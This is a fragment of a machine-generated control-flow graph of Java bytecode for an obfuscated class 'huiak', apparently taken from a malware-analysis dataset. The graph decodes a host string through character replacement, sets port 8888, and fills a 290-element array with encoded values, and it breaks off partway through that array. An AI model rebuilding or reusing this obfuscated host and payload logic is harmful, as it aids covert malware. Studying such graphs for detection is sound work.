    "push \"+\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"+\"";
    "push \"9\""
    "push \"+\""->"push \"9\"";
    "push \"9\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"E\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"E\"";
    "push \"0\""
    "push \"E\""->"push \"0\"";
    "push \"0\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"?i=6\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"?i=6\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"?i=6\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticput <huiak: java.lang.String host>";
    "staticput <huiak: java.lang.String host>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "staticput <huiak: java.lang.String s_port>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticput <huiak: java.lang.String s_port>";
    "staticput <huiak: java.lang.String s_port>"->"staticget <huiak: java.lang.String host>";
    "ifnonnull push null"
    "staticget <huiak: java.lang.String host>"->"ifnonnull push null";
    "push \"127.0.0.1\""
    "ifnonnull push null"->"push \"127.0.0.1\"";
    "push \"127.0.0.1\""->"staticput <huiak: java.lang.String host>";
    "push null"
    "staticput <huiak: java.lang.String host>"->"push null";
    "store.r $r17"
    "push null"->"store.r $r17";
    "push 290"
    "store.r $r17"->"push 290";
    "push 290"->"newarray";
    "store.r $r7"
    "newarray"->"store.r $r7";
    "load.r $r7"
    "store.r $r7"->"load.r $r7";
    "load.r $r7"->"push 0";
    "push 98"
    "push 0"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 1";
    "push 96"
    "push 1"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 2"
    "load.r $r7"->"push 2";
    "push 102"
    "push 2"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 3"
    "load.r $r7"->"push 3";
    "push 103"
    "push 3"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 4"
    "load.r $r7"->"push 4";
    "push 19"
    "push 4"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 5"
    "load.r $r7"->"push 5";
    "push 5"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 6"
    "load.r $r7"->"push 6";
    "push 6"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 7"
    "load.r $r7"->"push 7";
    "push 22"
    "push 7"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 8"
    "load.r $r7"->"push 8";
    "push 20"
    "push 8"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 9"
    "load.r $r7"->"push 9";
    "push 16"
    "push 9"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 10"
    "load.r $r7"->"push 10";
    "push 10"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 11"
    "load.r $r7"->"push 11";
    "push 17"
    "push 11"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 12"
    "load.r $r7"->"push 12";
    "push 12"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 13"
    "load.r $r7"->"push 13";
    "push 13"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 14"
    "load.r $r7"->"push 14";
    "push 18"
    "push 14"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 15"
    "load.r $r7"->"push 15";
    "push 26"
    "push 15"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 16";
    "push 21"
    "push 16"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 17";
    "push 17"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 18";
    "push 18"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 19";
    "push 19"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 20";
    "push 20"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 21";
    "push 21"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 22";
    "push 22"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 23"
    "load.r $r7"->"push 23";
    "push 23"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 24"
    "load.r $r7"->"push 24";
    "push 24"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 25"
    "load.r $r7"->"push 25";
    "push 25"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 26";
    "push 26"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 27"
    "load.r $r7"->"push 27";
    "push 27"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 28"
    "load.r $r7"->"push 28";
    "push 28"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 29"
    "load.r $r7"->"push 29";
    "push 29"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 30"
    "load.r $r7"->"push 30";
    "push 30"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 31"
    "load.r $r7"->"push 31";
    "push 31"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 32"
    "load.r $r7"->"push 32";
    "push 32"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 33"
    "load.r $r7"->"push 33";
    "push 33"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 34"
    "load.r $r7"->"push 34";
    "push 34"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 35"
    "load.r $r7"->"push 35";
    "push 35"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 36"
    "load.r $r7"->"push 36";
    "push 36"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 37"
    "load.r $r7"->"push 37";
    "push 37"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 38"
    "load.r $r7"->"push 38";
    "push 38"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 39"
    "load.r $r7"->"push 39";
    "push 39"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 40"
    "load.r $r7"->"push 40";
    "push 40"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 41"
    "load.r $r7"->"push 41";
    "push 41"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 42"
    "load.r $r7"->"push 42";
    "push 42"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 43"
    "load.r $r7"->"push 43";
    "push 43"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 44"
    "load.r $r7"->"push 44";
    "push 44"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 45"
    "load.r $r7"->"push 45";
    "push 45"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 46"
    "load.r $r7"->"push 46";
    "push 46"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 47"
    "load.r $r7"->"push 47";
    "push 47"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 48"
    "load.r $r7"->"push 48";
    "push 48"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 49"
    "load.r $r7"->"push 49";
    "push 49"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 50"
    "load.r $r7"->"push 50";
    "push 50"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 51"
    "load.r $r7"->"push 51";
    "push 51"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 52"
    "load.r $r7"->"push 52";
    "push 52"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 53"
    "load.r $r7"->"push 53";
    "push 53"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 54"
    "load.r $r7"->"push 54";
    "push 54"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 55"
    "load.r $r7"->"push 55";
    "push 101"
    "push 55"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 56"
    "load.r $r7"->"push 56";
    "push 56"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 57"
    "load.r $r7"->"push 57";
    "push 57"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 58"
    "load.r $r7"->"push 58";
    "push 58"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 59"
    "load.r $r7"->"push 59";
    "push 59"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 60"
    "load.r $r7"->"push 60";
    "push 60"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 61"
    "load.r $r7"->"push 61";
    "push 61"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 62"
    "load.r $r7"->"push 62";
    "push 62"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 63"
    "load.r $r7"->"push 63";
    "push 63"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 64"
    "load.r $r7"->"push 64";
    "push 64"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 65"
    "load.r $r7"->"push 65";
    "push 65"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 66";
    "push 66"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 67"
    "load.r $r7"->"push 67";
    "push 67"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 68"
    "load.r $r7"->"push 68";
    "push 97"
    "push 68"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 69"
    "load.r $r7"->"push 69";
    "push 69"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 70"
    "load.r $r7"->"push 70";
    "push 70"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 71"
    "load.r $r7"->"push 71";
    "push 71"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 72"
    "load.r $r7"->"push 72";
    "push 72"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 73"
    "load.r $r7"->"push 73";
    "push 73"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 74"
    "load.r $r7"->"push 74";
    "push 74"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 75"
    "load.r $r7"->"push 75";
    "push 75"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 76"
    "load.r $r7"->"push 76";
    "push 76"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 77"
    "load.r $r7"->"push 77";
    "push 77"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 78"
    "load.r $r7"->"push 78";
    "push 78"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 79"
    "load.r $r7"->"push 79";
    "push 79"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 80"
    "load.r $r7"->"push 80";
    "push 80"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 81"
    "load.r $r7"->"push 81";
    "push 81"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 82"
    "load.r $r7"->"push 82";
    "push 82"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 83"
    "load.r $r7"->"push 83";
    "push 83"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 84"
    "load.r $r7"->"push 84";
    "push 84"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 85"
    "load.r $r7"->"push 85";
    "push 85"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 86"
    "load.r $r7"->"push 86";
    "push 86"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 87"
    "load.r $r7"->"push 87";
    "push 87"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 88"
    "load.r $r7"->"push 88";
    "push 88"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 89"
    "load.r $r7"->"push 89";
    "push 89"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 90"
    "load.r $r7"->"push 90";
    "push 90"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 91"
    "load.r $r7"->"push 91";
    "push 91"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 92"
    "load.r $r7"->"push 92";
    "push 92"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 93"
    "load.r $r7"->"push 93";
    "push 93"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 94"
    "load.r $r7"->"push 94";
    "push 94"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 95"
    "load.r $r7"->"push 95";
    "push 95"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 96";
    "push 96"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 97";
    "push 97"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 98";
    "push 98"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 99"
    "load.r $r7"->"push 99";
    "push 99"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 100"
    "load.r $r7"->"push 100";
    "push 100"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 101";
    "push 101"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 102";
    "push 102"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 103";
    "push 103"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 104"
    "load.r $r7"->"push 104";
    "push 104"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 105"
    "load.r $r7"->"push 105";
    "push 105"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 106"
    "load.r $r7"->"push 106";
    "push 106"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 107"
    "load.r $r7"->"push 107";
    "push 107"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 108"
    "load.r $r7"->"push 108";
    "push 108"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 109"
    "load.r $r7"->"push 109";
    "push 109"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 110"
    "load.r $r7"->"push 110";
    "push 110"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 111"
    "load.r $r7"->"push 111";
    "push 111"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 112"
    "load.r $r7"->"push 112";
    "push 112"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 113"
    "load.r $r7"->"push 113";
    "push 113"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 114"
    "load.r $r7"->"push 114";
    "push 114"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 115"
    "load.r $r7"->"push 115";
    "push 115"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 116"
    "load.r $r7"->"push 116";
    "push 116"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 117"
    "load.r $r7"->"push 117";
    "push 117"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 118"
    "load.r $r7"->"push 118";
    "push 118"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 119"
    "load.r $r7"->"push 119";
    "push 119"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 120"
    "load.r $r7"->"push 120";
    "push 120"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 121"
    "load.r $r7"->"push 121";
    "push 121"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 122"
    "load.r $r7"->"push 122";
    "push 122"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 123"
    "load.r $r7"->"push 123";
    "push 123"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 124"
    "load.r $r7"->"push 124";
    "push 124"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 125"
    "load.r $r7"->"push 125";
    "push 125"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 126"
    "load.r $r7"->"push 126";
    "push 126"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 127"
    "load.r $r7"->"push 127";
    "push 127"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 128"
    "load.r $r7"->"push 128";
    "push 128"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 129"
    "load.r $r7"->"push 129";
    "push 129"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 130"
    "load.r $r7"->"push 130";
    "push 130"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 131"
    "load.r $r7"->"push 131";
    "push 131"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 132"
    "load.r $r7"->"push 132";
    "push 132"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 133"
    "load.r $r7"->"push 133";
    "push 133"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 134"
    "load.r $r7"->"push 134";
    "push 134"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 135"
    "load.r $r7"->"push 135";
    "push 135"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 136"
    "load.r $r7"->"push 136";
    "push 136"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 137"
    "load.r $r7"->"push 137";
    "push 137"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 138"
    "load.r $r7"->"push 138";
    "push 138"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 139"
    "load.r $r7"->"push 139";
    "push 139"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 140"
    "load.r $r7"->"push 140";
    "push 140"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 141"
    "load.r $r7"->"push 141";
    "push 141"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 142"
    "load.r $r7"->"push 142";
    "push 142"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 143"
    "load.r $r7"->"push 143";
    "push 143"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 144"
    "load.r $r7"->"push 144";
    "push 144"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 145"
    "load.r $r7"->"push 145";
    "push 145"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 146"
    "load.r $r7"->"push 146";
    "push 146"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 147"
    "load.r $r7"->"push 147";
    "push 147"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 148"
    "load.r $r7"->"push 148";
    "push 148"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 149"
    "load.r $r7"->"push 149";
    "push 149"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 150"
    "load.r $r7"->"push 150";
    "push 150"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 151"
    "load.r $r7"->"push 151";
    "push 151"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 152"
    "load.r $r7"->"push 152";
    "push 152"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 153"
    "load.r $r7"->"push 153";
    "push 153"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 154"
    "load.r $r7"->"push 154";
    "push 154"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 155"
    "load.r $r7"->"push 155";
    "push 155"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 156"
    "load.r $r7"->"push 156";
    "push 156"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 157"
    "load.r $r7"->"push 157";
    "push 157"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 158"
    "load.r $r7"->"push 158";
    "push 158"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 159"
    "load.r $r7"->"push 159";
    "push 159"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 160"
    "load.r $r7"->"push 160";
    "push 160"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 161"
    "load.r $r7"->"push 161";
    "push 161"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 162"
    "load.r $r7"->"push 162";
    "push 162"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 163"
    "load.r $r7"->"push 163";
    "push 163"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 164"
    "load.r $r7"->"push 164";
    "push 164"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 165"
    "load.r $r7"->"push 165";
    "push 165"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 166"
    "load.r $r7"->"push 166";
    "push 166"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 167"
    "load.r $r7"->"push 167";
    "push 167"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 168"
    "load.r $r7"->"push 168";
    "push 168"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 169"
    "load.r $r7"->"push 169";
    "push 169"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 170"
    "load.r $r7"->"push 170";
    "push 170"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 171"
    "load.r $r7"->"push 171";
    "push 171"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 172"
    "load.r $r7"->"push 172";
    "push 172"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 173"
    "load.r $r7"->"push 173";
    "push 173"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 174"
    "load.r $r7"->"push 174";
    "push 174"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 175"
    "load.r $r7"->"push 175";
    "push 175"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 176"
    "load.r $r7"->"push 176";
    "push 176"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 177"
    "load.r $r7"->"push 177";
    "push 177"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 178"
    "load.r $r7"->"push 178";
    "push 178"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 179"
    "load.r $r7"->"push 179";
    "push 179"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 180"
